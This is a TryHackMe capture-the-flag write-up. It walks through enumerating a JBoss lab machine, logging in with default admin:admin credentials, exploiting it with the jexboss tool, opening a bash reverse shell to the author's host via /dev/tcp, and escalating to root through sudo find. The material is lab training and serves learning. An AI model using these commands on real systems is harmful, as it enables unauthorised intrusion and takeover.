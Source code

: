 ```yaml
---
title: "Tony The Tiger"
author:
  name: 0xKirito
  link: https://github.com/0xKirito
date: 2021-12-21 19:54:21 +05:30
categories: [Writeups, TryHackMe]
tags: [THM, JBoss, Java, Deserialization]
render_with_liquid: false
---
```


## Enumeration

- `nmap -Pn -p- --min-rate 2000 -sV 10.10.62.36`

```
Not shown: 65518 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.7 ((Ubuntu))
1090/tcp open  java-rmi    Java RMI
1091/tcp open  java-rmi    Java RMI
1098/tcp open  java-rmi    Java RMI
1099/tcp open  java-object Java Object Serialization
3873/tcp open  java-object Java Object Serialization
4446/tcp open  java-object Java Object Serialization
4712/tcp open  msdtc       Microsoft Distributed Transaction Coordinator (error)
4713/tcp open  pulseaudio?
5445/tcp open  smbdirect?
5455/tcp open  apc-5455?
5500/tcp open  hotline?
5501/tcp open  tcpwrapped
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8080/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
8083/tcp open  http        JBoss service httpd
```

## GoBuster

```
gobuster dir -u http://10.10.62.36/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 60 -x php,java,txt -k

=======================================================================

/images      (Status: 301) [Size: 310] [==> http://10.10.62.36/images/]
/page        (Status: 301) [Size: 308] [==> http://10.10.62.36/page/]
/categories  (Status: 301) [Size: 314] [==> http://10.10.62.36/categories/]
/posts       (Status: 301) [Size: 309] [==> http://10.10.62.36/posts/]
/css         (Status: 301) [Size: 307] [==> http://10.10.62.36/css/]
/tags        (Status: 301) [Size: 308] [==> http://10.10.62.36/tags/]
/js          (Status: 301) [Size: 306] [==> http://10.10.62.36/js/]
/fonts       (Status: 301) [Size: 309] [==> http://10.10.62.36/fonts/]
```

---

## Exploitation

- http://10.10.62.36:8080/admin-console/ 
- `admin:admin` worked and logged me in but I couldn't find a way to upload anything so I went looking for exploits.
- There is an option to upload files like WAR, EAR, RAR, JAR in the Applications section in admin console but it didn't work and I could not get a reverse shell.
- `searchsploit JBoss`
- Google: JBoss AS 6 exploit
- [JexBoss: Jboss (and Java Deserialization Vulnerabilities) verify and Exploitation Tool](https://github.com/joaomatosf/jexboss)
- `git clone https://github.com/joaomatosf/jexboss`
- Create `venv` and `pip install -r requires.txt`
- `python jexboss.py -J admin:admin -u http://10.10.62.36:8080 -r 10.10.62.36:8080 -t`
- And we get a shell as user `cmnatic`.
- To get a proper netcat shell, I tried the following command and then upgraded the shell to get a stable shell.
- `nc -lvnp 443` 
- `shell> bash -i >& /dev/tcp/10.17.2.57/443 0>&1` 

---

## Privilege Escalation

- `/home/jboss` has a file `note` with `jboss` user's password in it.
- `jboss:likeaboss`
- `su jboss => likeaboss`
- `sudo -l => /usr/bin/find`
- GTFOBins: `sudo find . -exec /bin/bash \; -quit`
- `whoami` <span class="fat-arrow">=></span> `root`

- JBoss Configuration Files Location

```
https://docs.jboss.org/jbossas/guides/installguide/r1/en/html/config-files.html
```

```
cmnatic@thm-java-deserial:~/jboss/server/default$ cat conf/props/jmx-console-users.properties
# A sample users.properties file for use with the UsersRolesLoginModule
admin=admin
cmnatic@thm-java-deserial:~/jboss/server/default$ cat conf/props/jmx-console-roles.properties
# A sample roles.properties file for use with the UsersRolesLoginModule
admin=JBossAdmin,HttpInvoker
```

- `cat /root/root.txt`

```
QkM3N0FDMDcyRUUzMEUzNzYwODA2ODY0RTIzNEM3Q0Y==
```

- Go to CyberChef and Base64 Decode with URL Safe option.
- `BC77AC072EE30E3760806864E234C7CF`
- `zxcvbnm123456789`

